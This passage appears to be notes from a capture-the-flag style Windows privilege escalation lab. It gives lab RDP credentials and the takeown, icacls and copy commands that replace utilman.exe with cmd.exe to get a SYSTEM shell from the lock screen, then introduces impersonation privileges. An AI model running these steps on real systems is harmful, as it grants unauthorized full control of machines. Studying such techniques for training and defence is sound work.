>> Microsoft Windows [Version 10.0.17763.1821]
>> (c) 2018 Microsoft Corporation. All rights reserved.
>>
>> C:\Windows\system32> whoami
>> nt authority\system
>> ``` 
> 
> # C. SeTakeOwnership
> The **SeTakeOwnership** privilege allows a user to take ownership of any object on the system, including files and registry keys, opening up many possibilities for an attacker to elevate privileges.
>
> Log in to the target machine via RDP using the following credentials:
>
> User: `THMTakeOwnership` Password: `TheWorldIsMine2022`
>
> Open and run command prompt as the administrator.
>
> We'll abuse `utilman.exe` to escalate privilege this time. **Utilman** is a built-in Windows application used to provide Ease of Access options during the lock screen. It is run with SYSTEM privileges, therefore we will effectively gain SYSTEM privileges if we replace the original binary for any payload we like. We can take ownership and replace any file.
> ![Image of Utilman]([Isolated.pn](https://external-content.duckduckgo.com/iu/?u=https%3A%2F%2Fwww.passfab.com%2Fimages%2Ftopics%2Falternative%2Fwindows-11%2Faccessibility.jpg%3Fw%3D804%26h%3D624&f=1&nofb=1&ipt=ae7c90cc9b01cc71929477d99216cede1bb0d53bfabe02fe35d2bf3859b35736&ipo=images) "Utilman")
>
> We will then replace utilman
>
> ### TARGET MACHINE:
>> ```
>> C:\Windows\system32>takeown /f C:\Windows\System32\Utilman.exe
>>
>> SUCCESS: The file (or folder): "C:\Windows\System32\Utilman.exe" now owned by user "WPRIVESC2\THMTakeOwnership".
>>
>> C:\Windows\system32>icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
>> processed file: C:\Windows\System32\Utilman.exe
>> Successfully processed 1 files; Failed processing 0 files
>>
>> C:\Windows\system32>copy cmd.exe utilman.exe
>> Overwrite utilman.exe? (Yes/No/All): yes
>>         1 file(s) copied.
>> ``` 
>
> To trigger utilman, we will lock our screen from the start button.
>
> Finally, click the "Ease of Access" button, which runs `utilman.exe` with SYSTEM privileges. This will cause to pop a command line.
>
> Although this won't give us access to `C:\Users\Administrator\flag.txt`.
> 
> # D. Selmpersonate / SeAssignPrimaryToken
>
> These privileges allow a process to impersonate other users and act on their behalf.
>
> Impersonation usually consists of being able to spawn a process or thread under the security context of another user. You can understand impersonation by looking how FTP server works.
>
> As attackers, if we manage to take control of a process with SeImpersonate or SeAssignPrimaryToken privileges, we can impersonate any user connecting and authenticating to that process.


</details>

